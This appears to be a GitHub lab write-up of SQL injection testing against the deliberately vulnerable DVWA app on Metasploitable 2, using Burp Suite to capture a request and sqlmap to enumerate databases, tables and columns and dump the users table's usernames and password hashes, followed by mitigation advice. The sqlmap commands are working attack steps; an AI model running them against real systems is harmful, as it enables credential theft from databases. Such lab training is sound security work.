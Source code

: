 # SQL Injection Testing on DVWA using SQLMap & Burp Suite

Author: Vignesh G
Date: February 2025
Tools Used: Burp Suite, SQLMap, DVWA (Metasploitable 2)

## Objective
To identify and exploit SQL Injection vulnerabilities in the Damn Vulnerable Web Application (DVWA) using SQLMap and Burp Suite, demonstrating how attackers can extract sensitive database information.

 ## Environment Setup
Attacker Machine: Kali Linux (Burp Suite + SQLMap installed)
Target Machine: Metasploitable 2 (DVWA running on Apache/PHP/MySQL)
Network: Host-only or NAT configuration for safe testing


## Methodology
Reconnaissance
DVWA was accessed at http://<target-ip>/dvwa/vulnerabilities/sqli/.
A test input was submitted into the User ID field to capture the request in Burp Suite.
Interception
Burp Suite Proxy was used to intercept the HTTP request.
The captured request was saved locally as request.txt.

## Exploitation using SQLMap
The saved request was passed to SQLMap for testing SQL injection.
Step 1: Database Enumeration
sqlmap -r request.txt --dbs --batch

Result: SQLMap successfully detected a SQL Injection vulnerability and listed the available databases.

Step 2: Table Enumeration
sqlmap -r request.txt -D dvwa --tables

Result: Tables such as users, guestbook, and visitors were found.
Step 3: Column Enumeration
sqlmap -r request.txt -D dvwa -T users --columns

Result: Columns like user_id, user, password were identified.
Step 4: Dumping Data
sqlmap -r request.txt -D dvwa -T users --dump

Result: Extracted usernames and password hashes from the users table.


## Observations
The parameter id in the HTTP request was found to be vulnerable to SQL Injection.
SQLMap was able to automate data extraction without authentication bypass.
Passwords were stored as hashes, showing partial security awareness but poor input sanitization


## Mitigation Recommendations
Use parameterized queries or prepared statements in database queries.
Sanitize and validate all user input before execution.
Implement a Web Application Firewall (WAF) to block injection attempts.
Regularly perform vulnerability scans and code reviews.


## Conclusion
The test successfully demonstrated how SQL Injection can be exploited using automated tools like SQLMap.
 This highlights the need for secure coding practices and regular vulnerability assessments in web applications.

## Demo



<img width="1866" height="935" alt="Screenshot 2025-10-30 163331" src="https://github.com/user-attachments/assets/af0f9ba2-4b7f-45df-91c3-1414d89cfa34" />

<img width="431" height="126" alt="Screenshot 2025-10-30 163451" src="https://github.com/user-attachments/assets/cc1b4492-def7-43b5-9dd3-ad740171b4fc" />

<img width="1910" height="251" alt="Screenshot 2025-10-30 163554" src="https://github.com/user-attachments/assets/30f21019-6f3d-43b1-b22d-de4b472e2587" />

Download PDf Here:

[Proof of Concept_ DDoS Simulation and Analysis.pdf](https://github.com/user-attachments/files/23232753/Proof.of.Concept_.DDoS.Simulation.and.Analysis.pdf)







